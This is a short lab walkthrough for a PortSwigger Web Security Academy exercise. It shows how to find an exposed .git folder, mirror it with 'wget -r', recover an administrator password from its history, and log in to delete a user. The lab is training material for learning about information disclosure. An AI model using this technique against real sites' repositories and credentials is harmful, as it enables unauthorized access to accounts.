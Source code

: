 # Information disclosure in version control history

## This lab discloses sensitive information via its version control history. To solve the lab, obtain the password for the `administrator` user then log in and delete Carlos's account.

---

### step 1

https://0aab008103217307c20cd55f009d0052.web-security-academy.net/
add /.git to see git file
https://0aab008103217307c20cd55f009d0052.web-security-academy.net/.git

![screenshot](./images/lab_git_file.png)

### step2

download .git file from website

wget -r https://0aab008103217307c20cd55f009d0052.web-security-academy.net/.git/

![screenshot](./images/lab5_git_steps.png)

ADMIN_PASSWORD=3wzqgtccfg31bt4zaoiu

try admin or administrator as user name
and password: 3wzqgtccfg31bt4zaoiu
